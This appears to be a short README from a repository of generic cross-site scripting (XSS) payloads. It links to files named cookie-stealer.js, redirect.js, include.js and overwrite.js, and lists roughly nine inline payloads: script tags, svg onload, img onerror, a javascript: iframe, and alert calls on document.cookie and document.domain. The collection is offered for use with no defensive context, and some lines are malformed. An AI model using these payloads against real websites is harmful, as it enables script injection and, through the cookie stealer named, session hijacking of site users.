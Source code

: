 # Generic xss payloads.

### Maybe useful payloads:

* [cookie-stealer.js](useful/cookie-stealer.js)

* [redirect.js](useful/redirect.js)

* [include.js](useful/include.js)

* [overwrite.js](useful/overwrite.js)

### Other:

```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

